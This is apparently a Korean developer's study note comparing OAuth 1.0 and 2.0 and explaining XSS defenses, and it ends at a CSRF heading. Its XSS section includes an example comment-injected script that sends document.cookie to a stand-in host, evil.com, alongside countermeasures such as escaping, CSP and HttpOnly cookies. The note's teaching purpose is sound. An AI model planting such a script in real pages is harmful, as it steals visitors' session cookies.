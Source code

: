 ## OAuth 1.0과의 차이점

대부분 현대 서비스에선 2.0을 사용하고 있다고 합니다.

```java
OAuth 1.0
- 복잡한 서명 과정
- 모바일 지원 어려움
- 단일 서명 방식
- 엑세스 토큰만 있음, 토큰 만료 없음

OAuth 2.0
- 간단한 구현
- 모바일 최적화
- 다양한 인증 방식
- 엑세스 토큰, 리프레시 토큰 사용
- HTTPS 필수이나 HTTPS한테 의존적임
```

## 보안 강화 대책 (XSS, CSRF, 토큰 탈취 방지)

### XXS ( Cross-Site Scripting )

**공격 방식:** 

- 웹 사이트에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행되게 하는 공격
- 사용자의 세션 탈취, 웹 사이트 변조, 악성 코드 전달 등이 가능

```java
<!-- 댓글에 악성 스크립트 삽입 -->
<script>
  fetch('https://evil.com?cookie=' + document.cookie);
</script>
```

**대응 방안:** 

1. 입력값 검증 및 이스케이프 처리
    - HTML 특수 문자 변환
    - JS 코드 실행 방지 등
2. CSP (Content-Security0Policy) 설정
    
    ```java
       Content-Security-Policy: default-src 'self'
    ```
    
    - self 의미
        - 모든 리소스는 현재 도메인에서만 로드 가능
        - 외부 도메인의 리소스는 기본적으로 차단
3. HttpOnly 쿠키 사용
    - 자바스크립트로 접근할 수 없는 쿠키입니다.

### CSRF ( Cross-Site Request Forgery )
